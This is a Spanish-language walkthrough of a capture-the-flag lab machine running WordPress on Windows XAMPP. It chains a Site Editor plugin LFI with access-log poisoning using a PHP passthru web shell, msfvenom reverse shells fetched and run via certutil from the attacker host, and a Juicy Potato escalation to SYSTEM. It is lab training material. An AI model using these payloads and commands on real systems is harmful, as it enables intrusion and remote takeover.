





```php 
#################################################################################
#
# CTF a la Máquina TriplAdvisor
#
# DATE: 21/Enero/2025
#
#################################################################################
```
# Footprinting

```bash 
IP_atacante -> $ifconfig -> 192.168.0.141
IP_objetivo -> $sudo netdiscover -r 192.168.0.0/24 -c 200 -> 192.168.0.143
```
# Escaneo y Enumeración

Veo que puertos tiene abiertos

```php 
nmap -sVC -T5 -n -p- 192.168.0.143
```

Obtengo:

```php 
PORT   STATE SERVICE VERSION
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp open  http          Apache httpd
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://tripladvisor:8080/wordpress/
|_http-server-header: Apache
MAC Address: 08:00:27:D7:2C:58 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### Samba
Como siempre, si tiene abierto el puerto 445, compruebo si tiene alguna vulnerabilidad. 

```zsh
# Para saber posibles vuln de samba
sudo nmap --script "safe or smb-enum-*" -p 445 192.168.0.143 -Pn
```
>Pero **no  parece que la tenga**

Intento, no obstante enumerar compartidos:

```zsh
crackmapexec smb 192.168.0.143 -u guest --shares
```

O conectarme sin contraseña

```zsh
smbclient -L 192.168.0.143
```

Sin éxito

#### HTTP

Como veo una advertencia en el nmap

```zsh
redirect to http://tripladvisor:8080/wordpress/
```

Añado esta información al `/etc/hosts` 

```zsh
192.168.0.143 tripladvisor
```

Y ahora cargo la web esa en el navegador. Es un wordpress, con una sección de login

```zsh
http://tripladvisor:8080/wordpress/wp-login.php
```


Vamos a realizar un *wordpress scan* para intentar detectar vulnerabilidades en los plugins de wordpress

```zsh
wpscan --rua -t 10 --force --enumerate p --url http://tripladvisor:8080/wordpress/
```

Desglose del comando
- **`--rua`**  
    Esto activa el uso de un **User-Agent aleatorio** en cada solicitud HTTP enviada a la URL. Esto ayuda a evitar bloqueos o detección por parte del sitio web al simular diferentes navegadores o dispositivos.
    
- **`-t 10`**  
    Especifica el número de **hilos** para realizar las solicitudes simultáneamente. En este caso, se usarán 10 hilos para aumentar la velocidad del escaneo. Sin embargo, un número elevado puede poner más presión en el servidor del sitio.
    
- **`--force`**  
    Fuerza la ejecución incluso si WPScan detecta que algo no está configurado correctamente o que puede causar problemas.
    
- **`--enumerate p`**  
    Realiza una enumeración de los **plugins** instalados en el sitio de WordPress. Esto permite identificar qué complementos están activos o disponibles, ya que estos son puntos comunes de vulnerabilidad.
    
    - Otros valores comunes para `--enumerate`:
        - `u`: Usuarios
        - `t`: Temas
        - `ap`: Todos los plugins (activos e inactivos)
- **`--url http://tripladvisor:8080/wordpress/`**  
    Especifica la **URL del sitio de WordPress** que se analizará. En este caso, el sitio parece estar corriendo en un entorno local o de desarrollo en el puerto 8080.


Obtengo mucha información sobre el wordpress pero comienzo con esto:

```zsh
[+] editor
 | Location: http://tripladvisor:8080/wordpress/wp-content/plugins/editor/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tripladvisor:8080/wordpress/wp-content/plugins/editor/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tripladvisor:8080/wordpress/wp-content/plugins/editor/readme.txt
 ```
>site editor version 1.1

Busco en internet y según https://www.exploit-db.com/exploits/44340 tengo un LFI

Según el exploit,

```zsh
** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

** Solution **
No fix available yet.
```

En windows no tengo `/etc/passw`  así que para probar puedo poner `c:\Windows\System32\Drivers\etc\hosts`


```zsh
http://tripladvisor:8080/wordpress/wp-content/plugins/editor//editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=c:\Windows\System32\Drivers\etc\hosts
```
> Funciona, tengo un LFI

Continuo y hago una búsqueda de directorios:

```zsh
gobuster dir -u http://tripladvisor:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -t 200 --no-error
```

Obteniendo unos ficheros que debería examinar:

```zsh
/security.txt         (Status: 403) [Size: 1163]
/security.php         (Status: 403) [Size: 1163]
/security.conf        (Status: 403) [Size: 1163]
/security.html        (Status: 403) [Size: 1163]
```

Lo cargo en el navegador y me enseña esto:



Tengo un XAMPP instalado en un windows y ese fichero suele estar en:

```zsh
C:\xampp\apache\conf\extra\httpd-xampp.conf
```

Lo leo

```zsh
http://tripladvisor:8080/wordpress/wp-content/plugins/editor//editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=C:\xampp\apache\conf\extra\httpd-xampp.conf
```

Contiene una directiva `require local` para que no pueda manipularlo de forma remota, `require local`

```zsh
<LocationMatch "^/(?i:(?:xampp|security|licenses|phpmyadmin|webalizer|server-status|server-info))">
        Require local
	ErrorDocument 403 /error/XAMPP_FORBIDDEN.html.var
</LocationMatch>
```

No obstante, como tiene un XAMPP, se que sus logs los guarda en `C:\xampp\apache\logs\` cuyos ficheros mas importantes son `access.log` y `error.log` 
`
Lo compruebo:

```zsh
http://tripladvisor:8080/wordpress/wp-content/plugins/editor//editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=C:\xampp\apache\logs\access.log
```

Si puedo leerlo. ¡Genial! Hemos confirmado la vulnerabilidad de inclusión de archivos locales (LFI) primero y ahora, debemos aprovechar esta vulnerabilidad para lograr la ejecución de código remoto (RCE).


Vamos a utilizar la técnica de *log poisoning* que consiste en inyectar código PHP en el fichero de logs `access.log` de forma que luego podamos ejecutar comandos.

El parámetro de *curl* **-X** se utiliza para especificar el método que vamos a utilizar en la solicitud (get, post, put, delete, ...), sin embargo aquí en vez de poner un método añadimos la inyección. Esto dará un error que se almacenará en el access.log y como puedo leerlo, esa instrucción se interpretaría, con lo que tengo ya el RCE.
También podría servir el parámetro **-A**, que especifica el *user-agent*

```zsh
curl -X "<?php echo passthru(\$_GET['cmd']);?>" http://tripladvisor:8080/wordpress/
```
>Con esto lo inyectamos

Y ahora lo invocamos con un comando de ejemplo `dir`

```zsh
http://tripladvisor:8080/wordpress/wp-content/plugins/editor//editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=C:\xampp\apache\logs\access.log&cmd=dir
```


# Acceso

1. Vamos a crearnos una reverse shell, con msfvenom, para ejecutarla con ese mismo método que ejecuto los comandos. Utilizo esto, aunque podría subir un *nc.exe* pero en muchos sistemas windows el *nc.exe* no me funciona, este método es más fiable.

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.141 LPORT=8888 -f exe --encoder x64/xor_dynamic --out toxic.exe
```

2. Pongo un netcat a escuchar en ese puerto

```zsh
nc -lvnp 8888
```

3. Y subo la reverse shell con *certutil*

```zsh
\access.log&cmd=certutil -urlcache -split -f http://192.168.0.141:80/toxic.exe c:\windows\tasks\rev.exe
```

Explicación del comando:
* -urlcache, permite descargar un fichero desde una url
* -split divide la transferencia en fragmentos, permitiendo manejar archivos más grandes
* -f, fuerza la descargar del archivo, incluso si existe localmente o si surgen problemas
* El servidor web donde está el fichero que voy a descargar. Lo puedo montar con python para esa tarea

```zsh
sudo python3 -m http.server 80
```



* [...]\rev.exe, es el destino donde lo voy a guardar. Es un sitio poco visible para usuarios comunes. Además puedo ganar persistencia porque podría configurarse como tarea programada.

4. Ejecuto el payload que he subido

```zsh
=c:\windows\tasks\rev.exe
```

He logrado acceder



Y con este usuario puedo obtener la primera bandera

```zsh
c:\Users\websvc\Desktop>type user.txt
;-)
```


# Elevación a Root

Ejecuto un `whoami /all` para comprobar los privilegios de ese usuario

```zsh
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Al tener habilitado `SeImpersonatePrivilege` puedo intentar algún **Potato**

* GodPotato no lo puedo utilizar porque el sistema no es el adecuado, es un 2008

```zsh
c:\Users\websvc\Desktop>systeminfo
systeminfo

Host Name:                 TRIPLADVISOR
OS Name:                   Microsoft Windows Server 2008 R2 Enterprise 
```

* Intentamos con un *Juicy Potato*, https://github.com/ohpe/juicy-potato

##### Juicy-Potato

1. Lo subo a la máquina

```zsh
certutil -urlcache -split -f http://192.168.0.141:80/juicypotato.exe juicypotato.exe
```

2. Ejecuto para comprobar y ver qué parámetros tengo que poner

```zsh
c:\Users\websvc\Desktop>juicypotato.exe
jouicypotato.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

Desde la web de *Juicy-Potato* tengo un enlace para averiguar el **CLSID** según el sistema operativo, https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
En este caso, para windows server 2008 R2

Me he creado un programa para que compruebe con juicypotato y la opción -z compruebe los CLSIDs correctos. El resultado ha sido:



Lógicamente me interesan los `NT AUTHORITY\SYSTEM` pruebo con el primero:

```zsh
{659cdea7-489e-11d9-a9cd-000d56965251}
```

Me creo otra RShell que escuche en otro puerto `7777`  por ejemplo:

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.141 LPORT=7777 -f exe --encoder x64/xor_dynamic --out toxic2.exe
```

Y la subo a la máquina.

La invocación con todos los parámetros y utilizando esa RShell sería:

```zsh
juicypotato.exe -l 10000 -p toxic2.exe -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}
```

**Nota:** No olvides poner en tu máquina de ataque un netcat escuchando en el puerto `7777`

Me da acceso de root

```zsh
C:\Windows\system32>whoami
whoami
nt authority\system
```

Y ya puedo capturar la bandera:

```console
C:\Users\Administrator\Desktop>type root.txt
;-)
```
